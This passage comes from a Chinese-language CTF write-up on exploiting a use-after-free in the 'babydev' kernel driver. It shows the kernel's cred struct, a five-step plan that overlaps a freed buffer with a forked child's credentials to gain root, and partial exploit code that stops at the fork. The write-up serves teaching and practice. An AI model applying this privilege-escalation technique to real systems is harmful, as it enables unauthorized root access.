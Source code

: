 ```CPP
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;  /* caps we're permitted */
    kernel_cap_t    cap_effective;  /* caps we can actually use */
    kernel_cap_t    cap_bset;   /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
};
```
大小为0xa8，那么利用思路就很明确了：
1. 首先打开babydev两次，此时第二次申请的内存会覆盖第一次申请的内存地址；
2. 通过ioctl修改内存大小为0xa8，也就是cred的大小；
3. 关闭第一个句柄，此时会执行babyrelease函数，全局变量中的结构体指向的0xa8大小的内存会被释放，而第二个文件句柄依然存在，因此我们获得了一个悬垂指针（指向被释放的内存）；
4. 这时fork一个新的进程，新进程的cred正好申请在我们释放的位置；
5. 通过悬垂指针我们可以write新进程cred中的内容，从而实现新进程的权限提升。

下面编写UAF的利用程序：
```CPP
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    // 打开两次设备
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
    ioctl(fd1, 0x10001, 0xa8);

    // 释放 fd1
    close(fd1);

    // 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
    int pid = fork();
    if(pid < 0)
    {
        puts("[*] fork error!");
        exit(0);
    }

    else if(pid == 0)
    {
```
